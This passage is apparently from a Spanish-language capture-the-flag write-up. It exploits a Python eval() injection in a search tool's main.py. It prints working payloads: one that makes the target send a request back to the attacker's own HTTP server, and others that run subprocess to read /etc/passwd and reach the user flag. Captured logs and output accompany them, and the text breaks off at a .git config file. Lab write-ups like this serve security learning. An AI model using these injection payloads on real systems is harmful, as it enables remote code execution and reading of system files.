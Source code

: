 En el archivo `main.py`, vemos la siguiente línea:

```python
url = eval(
f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
)
```

Podríamos tratar de inyectar código python escapando la función con una secuencia tal que `') codigo_python #`, de forma que quedaría:

```python
url = eval(
f"Engine.{engine}.search('') codigo_python #', copy_url={copy}, open_web={open})"
)
```

La función *eval*, nos permite evaluar expresiones con python (son bloques que devuelven un valor, tales como las llamadas a funciones). Por tanto, podemos tratar de importar *requests* y hacer una petición *http* a nuestra propia máquina (haremos uso de `exec()`, ya que nos permitirá ejecutar sentencias que no devuelvan nada, ya que al terminar su ejecución la propia función devolverá `None`), el payload será `'), exec("import requests; requests.get(ip:port)")#` pasando nuestro puerto e ip:

```bash
sudo python3 -m http.server 80
```
```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.208 - - [16/Apr/2023 17:41:50] "GET / HTTP/1.1" 200 -
```

Recibimos la respuesta, por lo que tenemos ejecución remota de comandos (RCE).

## Explotación

Tras un largo rato tratando de entablar sin éxito una *reverse shell* ([[Reverse shell]]). Podemos, haciendo uso del módulo `subprocess`, tratar de buscar credenciales válidas:

```python
'), exec('import subprocess; subprocess.run(["cat", "/etc/passwd"])')#
```
```bash
[...]
svc:x:1000:1000:svc:/home/svc:/bin/bash
[...]
```

Ya tenemos un usario potencial, por lo podemos ver ya la **flag de usuario**:

```python
'), exec('import subprocess; subprocess.run(["ls", "-a", "/home/svc/user.txt"])')#
```
```
2acdf0cdc9374d5a2dde14d40d61e5d9
```

Si buscamos en la ruta de la aplicación (`/var/www/app`), encontramos un directorio `.git`, con un archivo de configuración `config`:
